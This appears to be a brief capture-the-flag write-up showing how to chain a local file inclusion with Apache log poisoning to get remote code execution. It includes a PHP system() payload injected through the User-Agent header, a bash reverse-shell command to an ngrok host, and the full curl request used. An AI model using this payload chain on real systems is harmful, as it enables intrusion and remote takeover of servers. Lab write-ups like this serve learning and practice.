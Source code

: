 #Poising log

First we need an LFI
The get parameter **read** allows to read any file.

Then, for the RCE, we use Apache logs. We inject code through the User-Agent

I first use ngrok to redirect 0.tcp.ngrok.io:13753 to my 9001 port
Then, url encode the following command:
```bash
bash -c "bash -i >& /dev/tcp/0.tcp.ngrok.io/13753 0>&1"
```

And send the payload:
```bash
curl 'http://challs2.hackademint.org:13405//index.php?read=../../../var/log/apache2/access.log&c=bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F0.tcp.ngrok.io%2F13753%200%3E%261%22' -H "User-Agent: <?php system(\$_GET['c']); ?>"
```
We got a shell :)
